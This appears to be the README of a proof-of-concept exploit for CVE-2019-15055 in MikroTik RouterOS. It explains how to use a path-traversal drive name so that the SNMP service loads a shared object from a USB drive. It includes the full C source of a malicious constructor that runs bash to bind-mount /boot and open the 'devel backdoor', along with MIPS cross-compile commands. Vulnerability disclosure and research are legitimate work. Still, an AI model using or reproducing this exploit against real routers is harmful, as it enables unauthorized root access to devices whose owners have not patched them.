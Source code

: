# CVE-2019-15055

This vulnerability requires a USB or drive be mounted and visible in System -> Disk. Assuming you have control of the USB create the directory structure "/nova/lib/snmp/" and store lol_mips.so in the snmp subdirectory. Note that the shared object is compiled as mips big endian. If your target uses a different architecture than you'll need to recompile it.

Next change the drive's name to "../../../ram/pckg/snmp_xploit" and enable (or restart) the SNMP process. This should cause SNMP to load the shared object on the USB. The shared object simply does the following:

```sh
albinolobster@ubuntu:~/routeros/poc/cve_2019_15055/shared_obj$ cat snmp_exec.c 
#include <unistd.h>
#include <stdlib.h>

void __attribute__((constructor)) lol(void)
{
    int fork_result = fork();
    if (fork_result == 0)
    {
        execl("/bin/bash", "bash", "-c", "mkdir /pckg/option; mount -o bind /boot/ /pckg/option", (char *) 0);
        exit(0);
    }
}

extern void autorun(void)
{
    // do nothin' I guess?
    return; 
}
```

So you should now be able to login to through the devel backdoor.

## Affected versions
At the time of commit, this is only fixed in the release candidate branch. Stable and Long-term remain vulnerable.

## Compiling the shared object

```
albinolobster@ubuntu:~/routeros/poc/cve_2019_15055/shared_obj$ ~/cross-compiler-mips/bin/mips-gcc -c -fpic snmp_exec.c
albinolobster@ubuntu:~/routeros/poc/cve_2019_15055/shared_obj$ ~/cross-compiler-mips/bin/mips-gcc -shared -s -o lol_mips.so snmp_exec.o
```

